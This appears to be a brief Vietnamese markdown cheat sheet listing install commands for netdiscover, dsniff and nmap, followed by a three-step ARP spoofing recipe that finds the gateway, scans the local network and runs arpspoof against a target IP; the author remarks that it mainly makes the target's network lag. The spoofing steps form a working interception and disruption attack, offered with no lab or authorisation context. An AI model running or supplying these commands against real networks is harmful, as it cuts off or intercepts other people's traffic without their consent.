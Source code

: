 # Common Network Tools
### netdiscover
`sudo apt-get install netdiscover`

### dsniff để dùng arpspoof, dnsspoof
`sudo apt install dsniff`
### nmap
`sudo apt install nmap`
### arpspoofing 
gây lag mạng là chính, chứ target có vào được mạng đâu mà chơi :)
1. ip route -> lấy default gateway
2. sudo netdiscover -r [default_gateway] hoac sudo nmap -sP [default-gateway]
3. sudo arpspoof -i [network inteface] -t [targetIP] -r [default_gateway]
